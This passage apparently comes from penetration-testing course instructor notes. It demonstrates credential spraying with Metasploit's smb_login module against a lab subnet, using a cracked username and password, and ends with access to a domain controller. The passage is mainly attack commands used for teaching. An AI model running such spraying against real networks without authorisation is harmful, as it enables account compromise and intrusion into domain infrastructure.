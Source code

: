 #### Credential Spraying Demonstration

Now that we have a new set of credentials, we can test its access by spraying the credentials across the network. 

1. Demonstrate this to students by loading the smb_login module in Metasploit.

	- `use auxiliary/scanner/smb/smb_login`

2. Next, fill in the SMBDomain, SMBUser, SMBPass, and RHOSTS fields.

	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the options settings of the module.](Images/smblogin.PNG)

3. Run the exploit

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a domain controller.
